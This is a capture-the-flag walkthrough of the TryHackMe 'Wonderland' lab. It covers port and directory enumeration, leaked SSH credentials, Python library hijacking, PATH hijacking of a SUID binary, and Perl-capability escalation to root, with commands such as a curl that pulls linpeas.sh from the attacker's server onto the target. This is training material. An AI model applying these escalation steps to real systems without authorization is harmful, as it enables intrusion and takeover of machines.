 Room: [Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: Medium

Overview: This room is really interesting has you are going to exploit diferent types of privilege escalations, from PATH hijacking, scripting, analyzing binaries and setuid capabilities will make you privesc horizontaly from user to user till you get to root!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

We start enumerating the machine by running nmap. 

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.

**nmap -sV -sC -p- 10.10.189.225 -oN nmap.txt**

-sV    →  Probe open ports to determine service

-sC    →  Scan using the default set of scripts

-p-    →  Scan all ports

-oN    →  Save the ouput of the scan in a file

![nmap](https://user-images.githubusercontent.com/76821053/120692473-b7f40980-c49f-11eb-982b-ebe00cb8f77a.png)

There are two open ports on the system:

22 →  OpenSSH 7.6p1 Ubuntu 

80 →  Golang net/http server

Since there is a http server running on the system we can take a look at it:

![httphome](https://user-images.githubusercontent.com/76821053/120692565-d78b3200-c49f-11eb-8ead-c1b985a7d705.png)

After searching the webpage and its source code page i found nothing. So there is a tool called “Gobuster” which can help us search for hidden directories or files in http servers:

**gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://10.10.189.225 -x .txt,.cgi,.php,.log,.bak,.xxx,.old**

dir             → Uses directory/file enumeration mode

--wordlist      → Path to wordslist 

--url           → specifies the path of the target url we want to find any hidden directories

-x              → Search for all files with the specified extentions 

![gobuster_r](https://user-images.githubusercontent.com/76821053/120692664-fc7fa500-c49f-11eb-8f64-f80ed0af4e7b.png)

We found a new directory:

![http_r](https://user-images.githubusercontent.com/76821053/120696717-c2fd6880-c4a4-11eb-838c-d15350d0c805.png)

After reading the “Keep going” tip, i ran “Gobuster” again and found another directory:

![gobuster_a](https://user-images.githubusercontent.com/76821053/120692819-2df87080-c4a0-11eb-9b62-3ac1c16100d9.png)

So if we pay close attention to where this is leading us, we can figure it out, or else we can always keep going with “Gobuster”.

We arrived at the path **"/r/a/b/b/i/t"**:

![http_rabbit](https://user-images.githubusercontent.com/76821053/120692924-4cf70280-c4a0-11eb-8dbc-855abf925ed2.png)

In the source code of the webpage there are credentials for connecting to the target machine through ssh.

![http_source](https://user-images.githubusercontent.com/76821053/120693064-7748c000-c4a0-11eb-9570-425f75026a74.png)

We have access to the target machine with user "Alice":

![ssh_alice](https://user-images.githubusercontent.com/76821053/120693141-8d568080-c4a0-11eb-9499-54b91b12833b.png)

When enumerating the machine in search for the flags, we can see that The flag “root.txt” is in “alice” home directory which is odd.

![ls_la_alice](https://user-images.githubusercontent.com/76821053/120693204-a2331400-c4a0-11eb-9b9a-2518386f5302.png)

After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

![ls_root](https://user-images.githubusercontent.com/76821053/120693289-bd9e1f00-c4a0-11eb-8ad7-c1fcbe77d01e.png)

This is very strange since we cannot list any files in here, but still i manage to have access to /root directory. 

So taking a wild guess from the tips of the room we can try to read "user.txt" inside /root and find the first flag!

![cat_user txt](https://user-images.githubusercontent.com/76821053/120693405-deff0b00-c4a0-11eb-85aa-6cb6886e0b78.png)

In order to elevate our privileges we can check "sudo -l":

![sudo_l](https://user-images.githubusercontent.com/76821053/120693519-0229ba80-c4a1-11eb-8a03-e3ae516d5721.png)

To exploit this permission given to “alice” and gain access to user "rabbit" we can check a usefull post on medium about python library hijacking:

You can check it out here:

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The script "walrus_and_the_carpenter.py" imports a module called random.

![script_walrus](https://user-images.githubusercontent.com/76821053/120693624-22597980-c4a1-11eb-96c5-a66b7a9e997e.png)

The random module is located in one of the defined python paths, but if python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one.

So if we try and create a “random.py” script that runs /bin/bash inside the same directory of “walrus_and_the_carpenter.py”. Maybe “walrus_and_the_carpenter.py” will call for this module instead of the defined python module paths.

Simple random.py script:

![simple_random](https://user-images.githubusercontent.com/76821053/120693774-592f8f80-c4a1-11eb-8bff-7b539b7fce35.png)

List the contents of the directory to make sure the scripts are in the same directory:

![list_folder_scripts](https://user-images.githubusercontent.com/76821053/120693870-76645e00-c4a1-11eb-98c6-2f6c1042ccac.png)

Now we just need to run the "sudo -l" command with "alice".

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

![alice_rabbit_privesc](https://user-images.githubusercontent.com/76821053/120694022-a3187580-c4a1-11eb-91db-e588c5e36d84.png)

Success we are now user “rabbit”, the script “walrus_and_the_carpenter.py" imported our “random.py” and ran it.

To further our privileges we will try to take advantage of a binary inside “rabbit” home directory:

![teaParty_rabbit](https://user-images.githubusercontent.com/76821053/120694146-c3e0cb00-c4a1-11eb-985b-a51767144fd0.png)

Run the binary:

![run_teaparty](https://user-images.githubusercontent.com/76821053/120694189-d22ee700-c4a1-11eb-87a3-2e60f53a814b.png)

The binary “teaParty” has SUID permissions, and to be able to read its contents we need to transfer it to our system, since we cannot run "strings" on the target machine.

To transfer the file to our system we need to change “rabbit” home directory permissions to "rwx (or 777)" for all users since we don't have "rabbits" ssh password.

![chmod_rabbit](https://user-images.githubusercontent.com/76821053/120694580-4ff2f280-c4a2-11eb-8107-e1065ce3a692.png)

From our machine we can run "scp" to download the file:

**scp alice@10.10.189.225:/home/rabbit/teaParty .**

![scp](https://user-images.githubusercontent.com/76821053/120694668-65681c80-c4a2-11eb-834b-15c31407b75f.png)

Now we gonna analyse the binary with "strings":

![strings_teaparty](https://user-images.githubusercontent.com/76821053/120694782-7f096400-c4a2-11eb-9419-da455c3d53f8.png)

We can see that the binary runs “/bin/echo” and also runs “date” but it don't specify the absolute path for "date".

This is another privilege escalation method here, we will take advantage of the SUID binary teaParty!

We have to create a small “date” bash script that executes /bin/bash and export $PATH to one specified by us and take advantage of “date” not having an absolute path.

![script_date](https://user-images.githubusercontent.com/76821053/120694943-ab24e500-c4a2-11eb-840e-5bf411021bbf.png)

Need to make “date” executable:

![chmod_date](https://user-images.githubusercontent.com/76821053/120694982-b9730100-c4a2-11eb-8d83-dbcebea4f85d.png)

Now just export the variable $PATH and run the binary:

![export_PATH](https://user-images.githubusercontent.com/76821053/120695104-e8897280-c4a2-11eb-8e86-803d5f22d0d4.png)

We manage the move horizontaly to another user and there is credentials in plain text in his home directory:

![hatter_creds](https://user-images.githubusercontent.com/76821053/120695203-0bb42200-c4a3-11eb-8772-8a03cfac1fc1.png)

I had a hard time with the user “hatter” in finding the last privilege escalation into “root” user.

we can use a tool called "[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)" to automaticaly enumerate the system.

Now to upload the tool to the target system we need to started a python http server and use curl.

On our machine we setup the server where we host the “linpeas.sh” script:

**python -m SimpleHTTPServer**

![python_http](https://user-images.githubusercontent.com/76821053/120695863-c2180700-c4a3-11eb-85ee-d2251510af65.png)

From the target machine we will use curl:

**curl http://yourmachineip:8000/linpeas.sh -o linpeas.sh**

![curl_linpeas](https://user-images.githubusercontent.com/76821053/120695950-dcea7b80-c4a3-11eb-9a9c-44494c7f634c.png)

We need to make “linpeas.sh” executable:

![chmod_linpeas](https://user-images.githubusercontent.com/76821053/120695996-ed9af180-c4a3-11eb-80b8-592be139a4c2.png)

When running “linpeas.sh” i manage to found and interesting setuid binary capabilities:

![lin_capabilities](https://user-images.githubusercontent.com/76821053/120696069-03101b80-c4a4-11eb-8f58-114ca4412c41.png)

The root user (or any ID with UID of 0) gets special privileges running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. 

More info on setuid capabilities can be found [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).

I searched [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/) and learned that **/usr/bin/perl** is found vulnerable to privesc.

![gtfobins](https://user-images.githubusercontent.com/76821053/120696194-2a66e880-c4a4-11eb-8d16-93fec8b6cf26.png)

Now to elevate our privileges to root we just need to execute this command:

![privesc_cat_root](https://user-images.githubusercontent.com/76821053/120696264-410d3f80-c4a4-11eb-877f-f4f6289e54c3.png)

Success! We found the last flag!














